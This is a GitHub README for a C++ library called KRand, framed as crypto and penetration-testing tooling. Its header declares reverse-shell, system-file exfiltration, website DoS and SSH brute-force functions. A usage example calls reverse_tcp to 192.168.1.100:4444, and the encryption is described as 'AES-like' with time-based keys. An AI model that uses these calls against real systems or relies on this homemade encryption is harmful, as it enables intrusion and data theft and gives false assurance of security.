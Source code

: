 # KRand

## Overview
KRand is a cybersecurity and cryptography library designed for encryption, networking, and security research. It provides various cryptographic functionalities, networking tools, and attack simulations, making it useful for penetration testing and cybersecurity education.

## Features
- 🔐 **Encryption & Decryption**: Time-based key generation, AES-like encryption, and decryption.
- 🔑 **RSA Key Management**: Generate key pairs, encrypt and decrypt data with RSA keys.
- 📂 **File Security**: Encrypt and decrypt files securely using RSA keys.
- 🌐 **Networking & Reverse Shell**: Send system files, create a reverse TCP connection, and communicate with an attacker.
- 🚀 **Cybersecurity & Attack Simulations**:
  - Denial of Service (DoS) attack.
  - Port scanning (basic & advanced).
  - Packet sniffing & vulnerability scanning.
  - SSH brute-force attack.
  - Network enumeration.

## Installation

```sh
# Clone the repository
git clone https://github.com/Kalasaikamesh944/KRand.git
cd KRand

# Build using CMake
mkdir build && cd build
cmake ..
make

# Install to system (optional)
sudo make install
```

## Usage

### Include KRand in Your Project
```cpp
#include <KRand.h>
```

### Example: Encrypt and Decrypt Data
```cpp
#include "KRand.h"
#include <iostream>

int main() {
    std::string key = KRand::generate_time_based_key();
    std::string encrypted = KRand::encrypt("Hello, World!", key);
    std::string decrypted = KRand::decrypt(encrypted, key);

    std::cout << "Encrypted: " << encrypted << "\n";
    std::cout << "Decrypted: " << decrypted << "\n";
    return 0;
}
```

### Example: Reverse TCP
```cpp
KRand krand;
krand.reverse_tcp("192.168.1.100", 4444);
```

## Full Header File (`KRand.h`)
```cpp
/***
MIT License

Copyright (c) 2025 Kalasaikamesh944

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
***/

#ifndef KRAND_H
#define KRAND_H

#include <iostream>
#include <string>

#ifdef _WIN32
    #include <winsock2.h>
    #pragma comment(lib, "ws2_32.lib")  // Windows Sockets for Windows
#else
    #include <sys/socket.h>
    #include <arpa/inet.h>
    #include <unistd.h>
#endif

class KRand {
public:
    KRand();   // Constructor
    ~KRand();  // Destructor
    
    /*** 🔐 Encryption & Decryption Functions ***/
    static std::string generate_time_based_key();
    static std::string encrypt(const std::string &plaintext, const std::string &key);
    static std::string decrypt(const std::string &ciphertext, const std::string &key);

    /*** 🔑 RSA Key Pair Functions ***/
    void generate_key_pair(const std::string &public_key_file, const std::string &private_key_file);
    std::string encrypt_with_public_key(const std::string &data, const std::string &public_key_file);
    std::string decrypt_with_private_key(const std::string &encrypted_data, const std::string &private_key_file);

    /*** 📂 File Encryption & Decryption ***/
    void encrypt_file(const std::string &input_file, const std::string &output_file, const std::string &public_key_file);
    void decrypt_file(const std::string &input_file, const std::string &output_file, const std::string &private_key_file);

    /*** 🌐 Networking & Reverse Shell ***/
    void send_system_files_to_client(const std::string &client_ip, int client_port);
    void reverse_tcp(const std::string &attacker_ip, int attacker_port);
    void send_message_to_attacker(const std::string &attacker_ip, int attacker_port, const std::string &message);

    /*** 🚀 Cybersecurity & Attack Simulations ***/
    void do_dos_website(const std::string &target_url, bool loop, int count, int delay_ms);
    void port_scan(const std::string &target_ip, int start_port, int end_port);

    /*** 🔎 Advanced Features (Planned) ***/
    void advanced_port_scan(const std::string &target_ip);
    void packet_sniffing(std::string &interface);
    void vulnerability_scan();
    void ssh_brute_force(const std::string &target_ip, const std::string &user, const std::string &password_list);
    void network_enumeration(const std::string &network_range);
};

#endif  // KRAND_H
```

## License
This project is licensed under the MIT License. See the `LICENSE` file for more details.

